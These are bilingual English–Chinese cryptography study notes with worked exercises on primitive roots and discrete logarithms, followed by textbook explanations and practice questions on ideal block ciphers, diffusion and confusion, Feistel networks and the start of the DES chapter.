E15. (Problem 2.36, Stallings) Find all the primitive roots of \(37\).E15.（习题 2.36，Stallings）求 \(37\) 的全部原根。
Answer
Since \(36 = 2^2 \cdot 3^2\) has prime factors \(2\) and \(3\), an element \(g\) of \(\mathbb{Z}_{37}^*\) is a primitive root (order \(36\)) exactly when \(g^{36/2} = g^{18} \neq 1\) and \(g^{36/3} = g^{12} \neq 1 \pmod{37}\).由于 \(36 = 2^2 \cdot 3^2\) 的素因子为 \(2\) 和 \(3\)，\(\mathbb{Z}_{37}^*\) 中的元素 \(g\) 是原根（阶为 \(36\)），当且仅当 \(g^{36/2} = g^{18} \neq 1\) 且 \(g^{36/3} = g^{12} \neq 1 \pmod{37}\)。
Test \(g = 2\): \(2^5 = 32 \equiv -5\), \(2^{10} \equiv 25\), \(2^{12} = 2^{10}\cdot 4 \equiv 100 \equiv 26 \neq 1\), and \(2^{18} = 2^{12}\cdot 2^6 \equiv 26 \cdot 27 = 702 \equiv 36 \equiv -1 \neq 1\). So \(2\) is a primitive root.检验 \(g = 2\)：\(2^5 = 32 \equiv -5\)，\(2^{10} \equiv 25\)，\(2^{12} = 2^{10}\cdot 4 \equiv 100 \equiv 26 \neq 1\)，\(2^{18} = 2^{12}\cdot 2^6 \equiv 26 \cdot 27 = 702 \equiv 36 \equiv -1 \neq 1\)。所以 \(2\) 是原根。
If \(g\) is one primitive root, the others are exactly \(g^k\) with \(\gcd(k, 36) = 1\), which gives \(\phi(36) = 12\) roots. The exponents are \(k = 1, 5, 7, 11, 13, 17, 19, 23, 25, 29, 31, 35\), and \(2^k \bmod 37\) gives the roots.若 \(g\) 是一个原根，则其余原根恰好是 \(g^k\)，其中 \(\gcd(k, 36) = 1\)，共 \(\phi(36) = 12\) 个。指数为 \(k = 1, 5, 7, 11, 13, 17, 19, 23, 25, 29, 31, 35\)，\(2^k \bmod 37\) 就给出这些原根。
Result: the primitive roots of \(37\) are \(2, 5, 13, 15, 17, 18, 19, 20, 22, 24, 32, 35\).结果：\(37\) 的原根为 \(2, 5, 13, 15, 17, 18, 19, 20, 22, 24, 32, 35\)。
思路：先用 \(g^{18}\)、\(g^{12}\) 检验找到一个本原根 2，再取其与 36 互素的幂。
E16. (Problem 2.37, Stallings) Given that \(5\) is a primitive root of \(23\), construct a table of discrete logarithms and use it to solve the following congruences: (a) \(3x^5 \equiv 2 \pmod{23}\); (b) \(7x^{10} + 1 \equiv 0 \pmod{23}\); (c) \(5^x \equiv 6 \pmod{23}\).E16.（习题 2.37，Stallings）已知 \(5\) 是 \(23\) 的原根，构造一张离散对数表，并用它求解下列同余式：(a) \(3x^5 \equiv 2 \pmod{23}\)；(b) \(7x^{10} + 1 \equiv 0 \pmod{23}\)；(c) \(5^x \equiv 6 \pmod{23}\)。
Answer
Method: write every number as a power of \(5\), take discrete logarithms, and solve the resulting linear congruences modulo \(\phi(23) = 22\).方法：把每个数写成 \(5\) 的幂，取离散对数，然后解得到的模 \(\phi(23) = 22\) 线性同余式。
Powers \(5^i \bmod 23\) for \(i = 0, \dots, 21\) are \(1, 5, 2, 10, 4, 20, 8, 17, 16, 11, 9, 22, 18, 21, 13, 19, 3, 15, 6, 7, 12, 14\). Inverting this gives the table of \(\mathrm{dlog}_5 b\):列出 \(5^i \bmod 23\) 对 \(i = 0, \dots, 21\) 的各次幂，结果为 \(1, 5, 2, 10, 4, 20, 8, 17, 16, 11, 9, 22, 18, 21, 13, 19, 3, 15, 6, 7, 12, 14\)。把它反过来，得到 \(\mathrm{dlog}_5 b\) 的表：
| \(b\) | 1 | 2 | 3 | 4 | 5 | 6 | 7 | 8 | 9 | 10 | 11 |
|---|---|---|---|---|---|---|---|---|---|---|---|
| dlog | 0 | 2 | 16 | 4 | 1 | 18 | 19 | 6 | 10 | 3 | 9 |
| \(b\) | 12 | 13 | 14 | 15 | 16 | 17 | 18 | 19 | 20 | 21 | 22 |
|---|---|---|---|---|---|---|---|---|---|---|---|
| dlog | 20 | 14 | 21 | 17 | 8 | 7 | 12 | 15 | 5 | 13 | 11 |
(a) Let \(x = 5^y\). Then \(16 + 5y \equiv 2 \pmod{22}\), so \(5y \equiv -14 \equiv 8\). Since \(5 \cdot 9 = 45 \equiv 1 \pmod{22}\), \(y \equiv 72 \equiv 6\). Hence \(x = 5^6 \equiv 8\). Check: \(3 \cdot 8^5 \equiv 2 \pmod{23}\).(a) 设 \(x = 5^y\)。于是 \(16 + 5y \equiv 2 \pmod{22}\)，所以 \(5y \equiv -14 \equiv 8\)。由于 \(5 \cdot 9 = 45 \equiv 1 \pmod{22}\)，\(y \equiv 72 \equiv 6\)。因此 \(x = 5^6 \equiv 8\)。验算：\(3 \cdot 8^5 \equiv 2 \pmod{23}\)。
(b) \(7x^{10} \equiv -1 \equiv 22\). Logarithms: \(19 + 10y \equiv 11 \pmod{22}\), so \(10y \equiv -8 \equiv 14\), i.e. \(5y \equiv 7 \pmod{11}\) and \(y \equiv 7 \cdot 9 \equiv 8 \pmod{11}\). So \(y = 8\) or \(19\), giving \(x = 5^8 \equiv 16\) or \(x = 5^{19} \equiv 7\).(b) \(7x^{10} \equiv -1 \equiv 22\)。取对数：\(19 + 10y \equiv 11 \pmod{22}\)，所以 \(10y \equiv -8 \equiv 14\)，即 \(5y \equiv 7 \pmod{11}\) 且 \(y \equiv 7 \cdot 9 \equiv 8 \pmod{11}\)。因此 \(y = 8\) 或 \(19\)，从而得到 \(x = 5^8 \equiv 16\) 或 \(x = 5^{19} \equiv 7\)。
(c) \(x = \mathrm{dlog}_5 6 = 18\), read directly from the table.(c) \(x = \mathrm{dlog}_5 6 = 18\)，直接从表中查出。
Result: (a) \(x = 8\); (b) \(x = 7\) or \(x = 16\); (c) \(x = 18\) (modulo \(22\)).结果：(a) \(x = 8\)；(b) \(x = 7\) 或 \(x = 16\)；(c) \(x = 18\)（模 \(22\)）。
思路：取离散对数后，乘方变成乘法，同余方程变成线性方程。
Chapter 4Block Ciphers and DES分组密码与 DESReading: Stallings (Crypto) Ch. 4; Stallings & Brown 20.1–20.2
Block ciphers, the ideal cipher and Shannon's principles ★★★分组密码、理想密码与香农原则
Goal. Compute the number of reversible mappings and the key length of the ideal block cipher, explain why it is impractical, and tell diffusion from confusion.目标。 计算理想分组密码的可逆映射数和密钥长度，解释它为何不实用，并区分扩散与混淆。
Step 1: stream cipher and block cipher第 1 步：流密码与分组密码
In words: a stream cipher encrypts bit by bit with a key-generated stream; a block cipher encrypts a whole block at once.用文字表述：流密码用密钥生成的比特流逐位加密；分组密码一次加密整个分组。
A stream cipher（流密码）combines the data one bit or byte at a time with a keystream produced from the key. Stream ciphers are in Chapter 8.流密码每次将一位或一个字节的数据与由密钥产生的密钥流组合。流密码见第 8 章。
A block cipher（分组密码）maps a plaintext block of \(n\) bits to a ciphertext block of the same length under a shared key. Typical block sizes are 64 and 128 bits. Modes of operation (Chapter 7) let a block cipher act like a stream cipher. Most network cryptography uses block ciphers.分组密码在共享密钥下，把 \(n\) 位的明文分组映射为等长的密文分组。典型的分组长度是 64 位和 128 位。工作模式（第 7 章）可以让分组密码的行为像流密码。大多数网络密码学都使用分组密码。
Step 2: the ideal block cipher第 2 步：理想分组密码
In words: the ideal block cipher uses an arbitrary lookup table, and the table itself is the key, which is why it cannot be built for large blocks.用文字表述：理想分组密码使用任意的查找表，而这张表本身就是密钥，因此无法为大分组构造它。
An \(n\)-bit block cipher must be reversible, so each of the \(2^n\) plaintext blocks gets a different ciphertext block. The first block has \(2^n\) possible outputs, the second \(2^n-1\), and so on.\(n\) 位分组的密码必须可逆，所以 \(2^n\) 个明文分组中的每一个都要对应不同的密文分组。第一个分组有 \(2^n\) 种可能的输出，第二个有 \(2^n-1\) 种，依此类推。
The ideal block cipher（理想分组密码）may use any of these mappings. Both sides must know which one, so the mapping table is the key. The table holds one \(n\)-bit entry for each of the \(2^n\) input blocks.理想分组密码可以使用这些映射中的任何一种。通信双方都必须知道是哪一种，所以映射表就是密钥。该表对 \(2^n\) 个输入分组中的每一个都保存一个 \(n\) 位的表项。
Two cases show the problem.两个例子说明了这个问题。
- A small block (\(n=4\)) is a classical substitution cipher. Frequency analysis breaks it. The weakness comes from the small block, not from substitution.小分组（\(n=4\)）就是经典的代换密码，频率分析可以破解它。弱点来自小分组，而不是来自代换本身。
- A large block (\(n=64\)) hides the plaintext statistics, but a table of \(2^{70}\) bits cannot be stored or shared. So the ideal cipher is impractical.大分组（\(n=64\)）能隐藏明文的统计特性，但一张 \(2^{70}\) 位的表既无法存储，也无法共享。所以理想密码不实用。
A linear map \(y=Kx \bmod 2\) shrinks the key to \(n^2\) bits. Here \(K\) is a binary \(n\times n\) matrix, \(x\) the plaintext block and \(y\) the ciphertext block. This is the Hill cipher on bits (Section 2.4). It is easy to break, because \(n\) chosen plaintexts reveal \(K\) (Practice Q3).线性映射 \(y=Kx \bmod 2\) 把密钥缩减为 \(n^2\) 位。这里 \(K\) 是一个二进制 \(n\times n\) 矩阵，\(x\) 是明文分组，\(y\) 是密文分组。这就是按位的 Hill 密码（第 2.4 节）。它很容易被破解，因为 \(n\) 个选择明文就能泄露 \(K\)（练习第 3 题）。
Step 3: product ciphers第 3 步：乘积密码
In words: a product cipher chains simple ciphers so that the result is stronger than each part.用文字表述：乘积密码把简单的密码串联起来，使结果比每一部分都更强。
Feistel's answer is the product cipher（乘积密码）: two or more simple ciphers executed in sequence. It alternates two kinds of step.Feistel 的答案是 乘积密码：依次执行两个或多个简单密码。它交替使用两类步骤。
- Substitution（代换）: each element or group is uniquely replaced by another.代换：每个元素或每组元素被唯一地替换成另一个。
- Permutation（置换）: the order of the elements changes; none is added, deleted or replaced.置换：元素的顺序发生改变；没有元素被增加、删除或替换。
A cipher with a \(k\)-bit key realises only \(2^k\) of the \((2^n)!\) mappings. But each one is cheap to compute and the key is short.密钥为 \(k\) 位的密码，只能实现全部 \((2^n)!\) 种映射中的 \(2^k\) 种。但每一种映射都很容易计算，而且密钥很短。
Step 4: diffusion and confusion第 4 步：扩散与混淆
In words: diffusion spreads the plaintext over the ciphertext; confusion hides how the key was used.用文字表述：扩散把明文分散到整个密文中；混淆隐藏密钥是如何被使用的。
Shannon proposed two building blocks against statistical attacks, where the attacker knows letter frequencies or probable words.香农提出了两个用于抵抗统计攻击的基本构件，这类攻击中攻击者知道字母频率或可能的单词。
| Diffusion（扩散） | Confusion（混淆） | |
|---|---|---|
| Idea核心思想 | Each plaintext digit affects many ciphertext digits每个明文数字影响许多密文数字 | The relation between key and ciphertext statistics is as complex as possible密钥与密文统计量之间的关系尽可能复杂 |
| Effect效果 | Plaintext statistics are dissipated into long-range statistics明文的统计特性被分散为长程统计特性 | Known ciphertext statistics do not show how the key was used已知的密文统计量不能显示密钥是如何被使用的 |
| Means手段 | Repeat a permutation, then a function that mixes the moved bits重复做置换，然后用一个函数混合被移动的位 | A complex nonlinear substitution; a linear one adds little复杂的非线性代换；线性代换几乎没有帮助 |
| Example示例 | \(y_n=\left(\sum_{i=1}^{k}m_{n+i}\right) \bmod 26\) flattens letter and digram frequencies\(y_n=\left(\sum_{i=1}^{k}m_{n+i}\right) \bmod 26\) 使字母和双字母频率趋于平坦 | A nonlinear lookup table, such as a DES S-box一个非线性查找表，例如 DES 的 S 盒 |
In the example, \(m_{n+i}\) is the plaintext letter number \(n+i\) (as a number from 0 to 25) and \(y_n\) the output letter. Each output depends on \(k\) input letters.在这个例子中，\(m_{n+i}\) 是第 \(n+i\) 个明文字母（用 0 到 25 之间的数表示），\(y_n\) 是输出字母。每个输出依赖于 \(k\) 个输入字母。
A permutation alone is not diffusion. It only moves bits and keeps the statistics of short bit strings. Diffusion appears when a permutation is followed by a function that mixes the moved bits.只有置换不是扩散。它只是移动位，并保留了短位串的统计特性。当置换之后接一个混合被移动位的函数时，才出现扩散。
Practice练习
Q1. (Calculation) An ideal block cipher works on 3-bit blocks. (a) How many reversible mappings exist? (b) How long is the key if the mapping table is the key? (c) What is the key length for 64-bit blocks, and why is that impractical?Q1.（计算）一个理想分组密码作用于 3 比特分组。(a) 存在多少个可逆映射？(b) 若映射表即为密钥，则密钥有多长？(c) 对于 64 位分组，密钥长度是多少？为什么这不切实际？
Answer
(a) \(2^3=8\) blocks, so \(8!=40\,320\) mappings. (b) \(n\cdot2^n=3\cdot8=24\) bits (numbering the mappings would need only \(\log_2 40\,320\approx15.3\) bits, but the size still grows exponentially). (c) \(64\cdot2^{64}=2^{70}\approx1.2\times10^{21}\) bits, which cannot be stored, generated or shared between two users.(a) \(2^3=8\) 个分组，因此有 \(8!=40\,320\) 个映射。(b) \(n\cdot2^n=3\cdot8=24\) 比特（若对映射编号，只需 \(\log_2 40\,320\approx15.3\) 比特，但其规模仍呈指数增长）。(c) \(64\cdot2^{64}=2^{70}\approx1.2\times10^{21}\) 比特，它既无法存储、无法生成，也无法在两个用户之间共享。
思路：密钥就是整张映射表，所以长度随 \(n\) 指数增长。
Q2. (Explain) For each operation say whether it provides diffusion, confusion or neither, and why: (a) swapping the two halves of a block; (b) replacing each byte by a nonlinear lookup-table entry; (c) \(y_n=\left(\sum_{i=1}^{k}m_{n+i}\right)\bmod 26\).Q2.（解释）对于下列每种运算，说明它提供扩散、混淆还是两者都不是，并说明理由：(a) 交换分组的两半；(b) 将每个字节替换为非线性查找表中的条目；(c) \(y_n=\left(\sum_{i=1}^{k}m_{n+i}\right)\bmod 26\)。
Answer
(a) Neither: it is only a permutation and preserves the statistics of short bit strings. (b) Confusion: the nonlinear table makes the link between key and ciphertext statistics complex. (c) Diffusion: each output letter depends on \(k\) input letters, so letter and digram frequencies become more uniform.(a) 两者都不是：它只是一个置换，并保持短比特串的统计特性。(b) 混淆：非线性表使密钥与密文统计量之间的联系变得复杂。(c) 扩散：每个输出字母依赖于 \(k\) 个输入字母，因此字母频率与二字母组频率变得更加均匀。
Q3. (Beyond the text) A linear cipher computes \(y=Kx \bmod 2\) for \(n=4\) with an unknown invertible binary matrix \(K\) (a 16-bit key). Show that \(n\) chosen plaintexts recover \(K\).Q3.（超出正文）线性密码对 \(n=4\) 使用一个未知的可逆二元矩阵 \(K\)（16 位密钥）计算 \(y=Kx \bmod 2\)。证明 \(n\) 个选择明文即可恢复 \(K\)。
Answer
Encrypt the unit vectors \(e_1,\dots,e_4\) (a single 1 in position \(j\)). The ciphertext of \(e_j\) is \(Ke_j\), which is column \(j\) of \(K\), so four queries give \(K\). Inverting \(K\) by Gaussian elimination mod 2 then decrypts every message. The large key space (\(2^{16}\), or \(2^{n^2}\) in general) does not help: without nonlinearity there is no confusion.对单位向量 \(e_1,\dots,e_4\)（即在位置 \(j\) 上只有一个 1）进行加密。\(e_j\) 的密文为 \(Ke_j\)，它是 \(K\) 的第 \(j\) 列，因此四次查询即可得到 \(K\)。随后，通过模 2 的高斯消元求 \(K\) 的逆，即可解密任意消息。庞大的密钥空间（\(2^{16}\)，一般情形为 \(2^{n^2}\)）并无帮助：没有非线性，就不存在混淆。
易错：线性结构 = 没有混淆，密钥空间大也没用。
The Feistel cipher ★★★Feistel 密码
Goal. Write the round equations, trace a Feistel cipher by hand in both directions, and show why decryption needs only the reversed subkeys.目标。 写出轮方程，双向手工演算一个 Feistel 密码，并说明为什么解密只需要逆序使用子密钥。
Step 1: the structure第 1 步：结构
In words: a Feistel cipher splits the block in two halves; every round changes one half with a function of the other half, and then swaps them.用文字表述：Feistel 密码把分组分成两半；每一轮用另一半的函数去改变其中一半，然后交换两半。
The plaintext block has \(2w\) bits. It is split into the left half \(LE_0\) and the right half \(RE_0\). Both pass through \(n\) rounds (16 in DES). In round \(i\) a subkey（子密钥）\(K_i\) is used. The subkeys come from the key \(K\) by the key schedule（密钥编排）. The round function（轮函数）\(F\) is the same in every round, only \(K_i\) changes.明文分组有 \(2w\) 位。它被分为左半 \(LE_0\) 和右半 \(RE_0\)。两半都要经过 \(n\) 轮（DES 中为 16 轮）。在第 \(i\) 轮中使用 子密钥 \(K_i\)。子密钥由密钥 \(K\) 通过 密钥编排 得到。轮函数 \(F\) 在每一轮中都相同，只有 \(K_i\) 会变化。
How to do it by hand: 1. Split the block into \(L\) and \(R\). 2. Compute \(F(R,K_i)\). 3. New \(L\) = old \(R\). 4. New \(R\) = old \(L\) XOR \(F\). 5. After the last round output \(R\Vert L\).手算方法：1. 把分组分成 \(L\) 和 \(R\)。2. 计算 \(F(R,K_i)\)。3. 新的 \(L\) = 旧的 \(R\)。4. 新的 \(R\) = 旧的 \(L\) XOR \(F\)。5. 最后一轮之后输出 \(R\Vert L\)。
The design choices that the exam may list:考试中可能列出的设计选择：
| Parameter参数 | Larger or more complex means增大或更复杂的含义 | Typical value典型取值 |
|---|---|---|
| Block size分组长度 | more security (more diffusion), slower更安全（扩散更强），但更慢 | 64 bits; 128 for AES64 位；AES 为 128 位 |
| Key size密钥长度 | more security (brute force, confusion), slower更安全（抵抗穷举，增强混淆），但更慢 | 64 bits or less inadequate; 128 common64 位或更短不够；128 位较常见 |
| Number of rounds轮数 | one round is weak, more rounds add security一轮较弱，轮数增多则增加安全性 | 16 |
| Subkey generation子密钥生成 | harder cryptanalysis增加密码分析的难度 | no general theory尚无通用理论 |
| Round function \(F\) | harder cryptanalysis增加密码分析的难度 | nonlinear, good avalanche非线性，雪崩效应良好 |
Two further points are fast software encryption and ease of analysis. A concise, clearly explained algorithm is easier to check for weaknesses.另外两点是软件加解密速度快，以及易于分析。算法简洁、解释清楚，就更容易检查其中的弱点。
Step 2: decryption第 2 步：解密
In words: decrypt by running the same network on the ciphertext with the subkeys in reverse order.用文字表述：解密时，对密文运行同样的网络，并且子密钥逆序使用。
Only one algorithm is needed. The subkeys are used as \(K_n,K_{n-1},\dots,K_1\).只需要一个算法。子密钥按 \(K_n,K_{n-1},\dots,K_1\) 的顺序使用。


At every stage the decryption value equals the encryption value with its halves swapped: \(LD_i\Vert RD_i=RE_{n-i}\Vert LE_{n-i}\). Here \(LD_i\) and \(RD_i\) are the left and right halves after round \(i\) of decryption.在每个阶段，解密值都等于交换两半后的加密值：\(LD_i\Vert RD_i=RE_{n-i}\Vert LE_{n-i}\)。这里 \(LD_i\) 与 \(RD_i\) 分别是解密第 \(i\) 轮之后的左半和右半。
Proof for the first decryption round. Encryption ended with \(LE_n=RE_{n-1}\) and \(RE_n=LE_{n-1}\oplus F(RE_{n-1},K_n)\). The ciphertext \(RE_n\Vert LE_n\) enters decryption, so \(LD_0=RE_n\) and \(RD_0=LE_n\). With the subkey \(K_n\):第一轮解密的证明。加密结束时的两半为 \(LE_n=RE_{n-1}\) 和 \(RE_n=LE_{n-1}\oplus F(RE_{n-1},K_n)\)。密文 \(RE_n\Vert LE_n\) 进入解密，因此 \(LD_0=RE_n\)，且 \(RD_0=LE_n\)。使用子密钥 \(K_n\)：
\[\begin{aligned}LD_1&=RD_0=LE_n=RE_{n-1}\\RD_1&=LD_0\oplus F(RD_0,K_n)=[LE_{n-1}\oplus F(RE_{n-1},K_n)]\oplus F(RE_{n-1},K_n)=LE_{n-1}\end{aligned}\]
So the first decryption round outputs \(RE_{n-1}\Vert LE_{n-1}\), the swapped input of the last encryption round. The same argument holds for every round. At the end \(LD_n\Vert RD_n=RE_0\Vert LE_0\), and the final swap returns the plaintext \(LE_0\Vert RE_0\).因此第一轮解密输出 \(RE_{n-1}\Vert LE_{n-1}\)，也就是最后一轮加密输入的交换结果。同样的论证对每一轮都成立。最后得到 \(LD_n\Vert RD_n=RE_0\Vert LE_0\)，再经过最后一次交换，就还原出明文 \(LE_0\Vert RE_0\)。
Step 3: a trace in both directions第 3 步：双向演算
Toy cipher: 4-bit halves, two rounds, \(F(R,K)=(R+K) \bmod 16\), \(K_1=5\), \(K_2=7\). Block 9C, so \(LE_0=\) 9 and \(RE_0=\) C.玩具密码：4 位的两半，两轮，\(F(R,K)=(R+K) \bmod 16\)、\(K_1=5\)、\(K_2=7\)。分组为 9C，所以 \(LE_0=\) 9 和 \(RE_0=\) C。
| Step步骤 | \(F\) | New left新的左半 | New right新的右半 |
|---|---|---|---|
| Encrypt round 1 (\(K_1=5\)) | \(12+5=17\equiv1\) | \(LE_1=\) C |
\(RE_1=\) 9 \(\oplus\) 1 \(=\) 8 |
| Encrypt round 2 (\(K_2=7\)) | \(8+7=15=\) F |
\(LE_2=\) 8 |
\(RE_2=\) C \(\oplus\) F \(=\) 3 |
Decrypt round 1 (\(K_2=7\)), input 38 |
\(8+7=15=\) F |
\(LD_1=\) 8 |
\(RD_1=\) 3 \(\oplus\) F \(=\) C |
| Decrypt round 2 (\(K_1=5\)) | \(12+5\equiv1\) | \(LD_2=\) C |
\(RD_2=\) 8 \(\oplus\) 1 \(=\) 9 |
The ciphertext is \(RE_2\Vert LE_2=\) 38. Decryption outputs \(RD_2\Vert LD_2=\) 9C, the original block.密文为 \(RE_2\Vert LE_2=\) 38。解密输出 \(RD_2\Vert LD_2=\) 9C，即原始分组。
Practice练习
Q1. (Trace) A toy Feistel cipher has 8-bit halves, two rounds, \(F(R,K)=R\ \text{AND}\ K\) (bitwise), \(K_1=\) A5, \(K_2=\) 3C. Encrypt the block 1B6E, then decrypt the result.Q1.（手工演算）一个玩具式 Feistel 密码，半块为 8 位，两轮，\(F(R,K)=R\ \text{AND}\ K\)（按比特），\(K_1=\) A5，\(K_2=\) 3C。对分组 1B6E 进行加密，然后解密所得结果。
Answer
\(L_0=\) 1B, \(R_0=\) 6E. Round 1: \(F=\) 6E AND A5 \(=\) 24; \(L_1=\) 6E, \(R_1=\) 1B \(\oplus\) 24 \(=\) 3F. Round 2: \(F=\) 3F AND 3C \(=\) 3C; \(L_2=\) 3F, \(R_2=\) 6E \(\oplus\) 3C \(=\) 52. Output \(R_2\Vert L_2=\) 523F.\(L_0=\) 1B，\(R_0=\) 6E。第 1 轮：\(F=\) 6E 与 A5 \(=\) 24 相与；\(L_1=\) 6E，\(R_1=\) 1B \(\oplus\) 24 \(=\) 3F。第 2 轮：\(F=\) 3F 与 3C \(=\) 3C 相与；\(L_2=\) 3F，\(R_2=\) 6E \(\oplus\) 3C \(=\) 52。输出 \(R_2\Vert L_2=\) 523F。
Decrypt 523F with \(K_2,K_1\): \(LD_0=\) 52, \(RD_0=\) 3F. Round 1: \(F=\) 3F AND 3C \(=\) 3C; \(LD_1=\) 3F, \(RD_1=\) 52 \(\oplus\) 3C \(=\) 6E. Round 2: \(F=\) 6E AND A5 \(=\) 24; \(LD_2=\) 6E, \(RD_2=\) 3F \(\oplus\) 24 \(=\) 1B. Output \(RD_2\Vert LD_2=\) 1B6E, the original block, although AND is not invertible.用 \(K_2,K_1\) 解密 523F：\(LD_0=\) 52，\(RD_0=\) 3F。第 1 轮：\(F=\) 3F 与 3C \(=\) 3C 相与；\(LD_1=\) 3F，\(RD_1=\) 52 \(\oplus\) 3C \(=\) 6E。第 2 轮：\(F=\) 6E 与 A5 \(=\) 24 相与；\(LD_2=\) 6E，\(RD_2=\) 3F \(\oplus\) 24 \(=\) 1B。输出 \(RD_2\Vert LD_2=\) 1B6E，即原始分组，尽管与运算并不可逆。
Q2. (Explain) Why does a Feistel network swap the halves after the last round? What goes wrong if it does not?Q2.（解释）为什么 Feistel 网络在最后一轮之后要交换两半？如果不交换，会出现什么问题？
Answer
The swap lets the identical network, run with reversed subkeys, undo encryption. Without it the ciphertext would be \(LE_n\Vert RE_n\); decryption would start with \(LD_0=LE_n=RE_{n-1}\) and \(RD_0=RE_n\) and compute \(RD_1=LD_0\oplus F(RD_0,K_n)=RE_{n-1}\oplus F(RE_n,K_n)\). \(F\) is applied to \(RE_n\) instead of \(RE_{n-1}\), so the XOR no longer cancels and the plaintext is not recovered.交换使得相同的网络在子密钥顺序相反的情况下即可撤销加密。若不交换，密文将为 \(LE_n\Vert RE_n\)；解密则从 \(LD_0=LE_n=RE_{n-1}\) 与 \(RD_0=RE_n\) 开始，并计算 \(RD_1=LD_0\oplus F(RD_0,K_n)=RE_{n-1}\oplus F(RE_n,K_n)\)。\(F\) 将作用于 \(RE_n\) 而非 \(RE_{n-1}\)，因此异或不再相互抵消，明文也就无法恢复。
Q3. (True/false) "Decryption in a Feistel cipher needs the round function \(F\) to be invertible." Justify.Q3.（判断）“Feistel 密码的解密要求轮函数 \(F\) 是可逆的。”判断并说明理由。
Answer
False. A decryption round computes \(LE_{i-1}=RE_i\oplus F(LE_i,K_i)\), which evaluates \(F\) forwards on a known value. Only the invertibility of XOR is used, so \(F\) may even be constant or many-to-one (as in Q1).错误。解密轮计算 \(LE_{i-1}=RE_i\oplus F(LE_i,K_i)\)，即对一个已知的值正向计算 \(F\)。这里只用到了异或的可逆性，因此 \(F\) 甚至可以是常量或多对一的（如 Q1 所示）。
The Data Encryption Standard ★★★数据加密标准
Goal. State the DES parameters, describe the round function and the key schedule, and do an S-box lookup by hand.目标。 写出 DES 的参数，描述轮函数和密钥编排，并手工完成一次 S 盒查表。
Step 1: overview第 1 步：概述
In words: DES = initial permutation, sixteen Feistel rounds, a swap of the halves, and the inverse permutation.用文字表述：DES = 初始置换、16 轮 Feistel、两半交换和逆置换。
The Data Encryption Standard (DES)（数据加密标准）became a US federal standard in 1977 (algorithm name: DEA). It encrypts 64-bit blocks with a 56-bit key. The key input has 64 bits, but 8 of them are parity bits（奇偶校验位）that are never used.数据加密标准（DES）于 1977 年成为美国联邦标准（算法名为 DEA）。它用 56 位密钥加密 64 位分组。密钥输入有 64 位，但其中 8 位是从不使用的 奇偶校验位。
Three phases process the block. First the initial permutation（初始置换） IP, a fixed bit permutation without a key. Then 16 Feistel rounds with the subkeys \(K_1,\dots,K_{16}\). Then a swap of the halves and the inverse permutation \(\mathrm{IP}^{-1}\). Apart from IP and \(\mathrm{IP}^{-1}\), DES is exactly a Feistel cipher with \(n=16\) rounds and \(w=32\) bit halves.分组经过三个阶段处理。首先是 初始置换 IP，它是一种与密钥无关的固定位置换。然后是 16 轮 Feistel，使用子密钥 \(K_1,\dots,K_{16}\)。接着是两半交换以及逆置换 \(\mathrm{IP}^{-1}\)。除了 IP 和 \(\mathrm{IP}^{-1}\) 之外，DES 正是一个具有 \(n=16\) 轮、半块为 \(w=32\) 位的 Feistel 密码。


| Quantity参数 | Value取值 |
|---|---|
| Block size分组长度 | 64 bits |
| Key密钥 | 56 bits effective (64 with 8 parity bits)有效 56 位（含 8 位奇偶校验位共 64 位） |
